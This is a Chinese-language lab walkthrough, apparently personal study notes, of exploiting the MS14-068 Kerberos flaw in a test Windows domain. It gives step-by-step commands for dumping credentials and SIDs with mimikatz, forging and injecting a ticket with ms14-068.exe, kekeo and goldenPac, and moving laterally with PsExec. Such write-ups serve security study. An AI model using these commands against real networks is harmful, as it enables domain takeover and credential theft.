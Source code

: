 # MS14-068

1、获取域普通用户的账号密码
2、获取域普通用户的sid
3、服务器未打KB3011780补丁
4、域控服务器的IP

## 查看域控是否打ms14-068漏洞补丁

![image-20231201150337662](images/1.png)

## 查看域内SID

在win7上查看域SID

![image-20231201150418494](images/2.png)

在渗透的过程中也可以用mimikatz的logonpassword抓取（不过mimikatz需要高权限）

## 删除系统原有票据

为了排除其他票据的影响，我们来先看看有没有哪些票据，然后先删除掉

![image-20231201150603251](images/3.png)

删除已有的票据 klist purge

![image-20231201150623985](images/4.png)

为了模拟渗透的环境，后续的操作用mimikatz等工具来完成，先向win7上次mimikatz.exe

当提权到Administrator后就可以抓取密码了

```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

![image-20231201151956016](images/5.png)

这里抓到了域SID，因为用的win server2012甚至还可以抓到明文密码，但是这里不是我们的关注点，我们想要的是域用户SID

![image-20231201155117634](images/6.png)

```
S-1-5-21-3014572423-1275547571-3261963242-500	域控的

S-1-5-21-3014572423-1275547571-3261963242-1106	域用户test的

```

域控的IP可以用ipconfig/all查看

## 生成票据

```
ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码
ms14-068.exe -u test@town.domain -s S-1-5-21-3014572423-1275547571-3261963242-1106 -d 192.168.1.10 -p
```

![image-20231205205717345](images/7.png)

可以看到生成了票据`TGT_test@town.domain.ccache`

## 导入票据

在导入票据之前先访问一下DC

![image-20231201153037882](images/8.png)

接下来用mimikatz导入票据，将票据导入内存（这里不需要高权限）

```
kerberos::ptc TGT_test@town.domain.ccache
```

![image-20231201153204999](images/9.png)

最后就可以通过`dir \\主机名\C$`来查看DC上的C盘内容

然后用wmiexec，psexec横向

```
.\PsExec.exe -accepteula \\10.1.1.2 -s cmd.exe
```

这里可能是我版本的问题没有打通

```
kekeo.exe "exploit::ms14068 /user:win10test /password:密码 /domain:town.domain /ptt" exit

goldenPac.exe town.domain/win10test:密码@dc.town.domain
```



参考链接:

https://teamssix.com/210924-100520.html